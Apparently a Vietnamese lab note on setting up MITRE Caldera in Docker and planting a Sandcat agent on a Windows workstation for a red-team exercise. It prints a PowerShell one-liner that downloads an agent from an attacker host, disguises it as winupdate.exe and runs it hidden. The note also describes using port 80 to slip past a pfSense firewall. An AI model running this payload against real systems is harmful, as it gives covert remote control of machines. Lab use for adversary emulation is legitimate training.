



# Cài Caldera sử dụng docker {#3557b0eb61a480b08038e9274c394a08}


[https://www.youtube.com/watch?v=Vdd4lRXB7zE](https://www.youtube.com/watch?v=Vdd4lRXB7zE)


```c++
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
docker build --build-arg VARIANT=full -t caldera .
docker run -it -p 8888:8888 caldera
```


cách tối ưu hơn chút


```c++
sudo docker run -d \
  --name caldera-server \
  -p 8888:8888 \
  -p 80:8888 \
  -p 8443:8443 \
  -p 7010:7010 \
  caldera --insecure
```


_Giải thích thêm về Port:_

- **`8888:8888`**: Bạn sẽ truy cập giao diện Caldera qua cổng **8889** (vì 8888 đã bị Mythic Jupyter chiếm).
- 8443:8443: cổng UI
- còn các cổng 80:8888 là để nhận thông tin reverse sheell từ ws01

Để xem mật khẩu ta dùng: thường là admin: admin


```c++
grep -A 10 "users:" conf/default.yml
```





# Tạo payload {#3557b0eb61a48055b321dd19235dbc3a}


Để vượt qua pfSense chỉ mở port 80/443, chúng ta làm như sau:

1. Trên giao diện Caldera, menu bên trái, chọn **Campaigns** -&gt; Manage **Agents**.
2. Click **deploy an agent**.
3. Chọn **Sandcat** (Agent viết bằng Go, rất ổn định).



1. Platform: Chọn **Windows**.
2. **app.contact.http**: Sửa thành `http://<IP_Máy_Kali_của_bạn>:80` _(Bước này quyết định việc vượt tường lửa)_.
3. Caldera sẽ sinh ra một lệnh PowerShell (thường bắt đầu bằng `$server="http://...";$url="$server/file/download"...`).



1. Copy toàn bộ lệnh này. Sang máy **WS1**, mở PowerShell (quyền User hoặc Admin đều được) và dán lệnh vào chạy.
2. Quay lại Caldera, bạn sẽ thấy một Agent mới xuất hiện màu xanh lá cây. Khung cảnh tấn công đã sẵn sàng!

```c++
$server="http://192.168.253.128:80";
$url="$server/file/download";
$exePath="$env:USERPROFILE\AppData\Local\Temp\winupdate.exe";

$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);

get-process | ? {$_.modules.filename -eq $exePath} | stop-process -f -ea ignore;
rm -force $exePath -ea ignore;

[io.file]::WriteAllBytes($exePath,$data) | Out-Null;

Start-Process -FilePath $exePath -ArgumentList "-server $server -group red" -WindowStyle hidden;
```


Ta chạy nội dung file này trên ws01

